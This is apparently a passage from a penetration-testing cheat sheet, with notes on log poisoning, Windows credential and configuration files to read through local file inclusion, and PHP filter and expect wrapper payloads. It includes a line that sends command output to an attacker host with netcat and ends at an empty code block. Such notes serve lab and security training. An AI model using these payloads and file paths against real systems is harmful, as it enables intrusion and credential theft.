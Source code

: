   - See if any of our input from interacting with the web application ends up in logs.  If we have the ability to control the input into the logs, we may be able to inject reverse shell one-lines into the log and then execute them with the LFI of observing the logs. (ippsec:poison)
- Windows Files
```
%windir%\repair\sam 
%windir%\System32\config\RegBack\SAM 
%windir%\repair\system 
%windir%\repair\software 
%windir%\repair\security 
%windir%\debug\NetSetup.log (AD domain name, DC name, internal IP, DA account) 
%windir%\iis6.log (5,6 or 7) 
%windir%\system32\logfiles\httperr\httperr1.log 
C:\sysprep.inf 
C:\sysprep\sysprep.inf 
C:\sysprep\sysprep.xml 
%windir%\Panther\Unattended.xml 
C:\inetpub\wwwroot\Web.config 
%windir%\system32\config\AppEvent.Evt (Application log) 
%windir%\system32\config\SecEvent.Evt (Security log) 
%windir%\system32\config\default.sav 
%windir%\system32\config\security.sav 
%windir%\system32\config\software.sav 
%windir%\system32\config\system.sav 
%windir%\system32\inetsrv\config\applicationHost.config 
%windir%\system32\inetsrv\config\schema\ASPNET_schema.xml 
%windir%\System32\drivers\etc\hosts (dns entries) 
%windir%\System32\drivers\etc\networks (network settings) 
%windir%\system32\config\SAM (only really useful if you have access to the files while the machine is off) 
```

## PHP Wrappers
- If within an HTTP request a .php file is shown or exposed, then you should attempt techniques below to flex the secure coding of PHP on the webserver. 
- When attempting these tests, look at the response through a web proxy as sometimes exploitation won't show up in the HTML.
- If we have command injection but it's blind, we can pipe the output to a nc session connecting back to the attacker IP that we're listening on.
```
[command]|nc [attacker IP] [port]
```
  - ippsec=Sense
### php://filter
1. Attempt a PHP wrapper filter function around a PHP file location we know renders in the webpage to identify if the PHP is vulnerable to leaking PHP source code.
```
...[file].php?[variable/page]=php://filter/convert.base64-encode/resource=[known file location that renders]
```
  - You shouldn't include the PHP extension in the URL because this command can only execute on php extension files of the web server because you are abusing a PHP command already.
2. If successful, the base64 output of the PHP file is shown, which we can then copy to our attacker box and decode to read the plaintext version of any PHP file.
### expect://LFI
- Allows execution of system commands via the php expect wrapper.
- This functionality is not enabled by default.
1. Attempt the PHP wrapper expect function in the URL executing a known system command (ls).
```
...[file].php?[variable/page]=expect://[command]
```
- You will received the following error if the expect functionality is disabled on the target.
```
```